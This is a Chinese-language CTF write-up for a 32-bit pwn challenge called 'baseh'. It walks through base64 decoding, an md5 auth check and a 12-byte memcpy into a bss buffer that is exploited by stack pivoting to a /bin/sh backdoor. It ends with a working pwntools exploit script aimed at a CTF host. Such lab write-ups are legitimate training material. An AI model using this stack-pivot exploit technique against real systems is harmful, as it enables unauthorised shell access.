








# baseh
## 跟进 Base64Decode 函数：

按照函数表面意思，我初步判断是一个 base64 的解码函数


gdb调试



输入bGFk,可以看到解码成lad
跟进 correct 函数，发现后门函数

跟进 auth 函数：

auth 函数会生成解码内容的 md5 哈希值，并且与程序中保存的哈希值进行对比
重看 main 函数

v7 是 base64 解码后的长度，当 v7 > 0xC (十进制 12) 的时候，会输出 “Input Error!” 然后退
出进程。
memcpy(&input, v5, v7); 会把从 v5 开始的 v7 个字节的数据，完整地复制到 input 变量所在的内
存地址处。（这里有个坑，就是如果对伪代码不熟悉的话，你会误以为这是 input 函数的地址，其实
这个 input 是一个数据存储的变量（参数）??）；要注意的是，input 参数被控制在 12 字节（0xC）
大小内，不足与我们进行注入 payload，那我们就需要进行栈迁移
看回汇编代码：

在最后结束时给我们执行了一次 leave 汇编指令。
栈迁移到哪？
在 main 函数中，还有一个 memcpy，把解码后的数据 copy 填充到了 input 地址处，在程序关闭
 PIE 的情况下，input 的地址已知，我们可以通过栈劫持指针的方式，把数据布置到 input 所在
的 bss 段：

大致思路就是栈迁移调用 /bin/sh 来 gethell，不过需要事先将 payload 进行一次 base64 编码加密，
因为程序会将我们注入的 payload 进行一次 base64 编码解码。
exp:

```python
from pwn import *
import base64
context(log_level='debug', os = 'linux', arch = 'i386')
#io = process('./pwn')
io = remote('ctf-2.xeed.run',31364)
input_bss_address = 0x811EB40
binsh = 0x8049284
payload1 = cyclic(4) + p32(binsh) + p32(input_bss_address)
payload = base64.b64encode(payload1).decode()
io.recvuntil(':')
io.sendline(payload)
io.interactive()
```
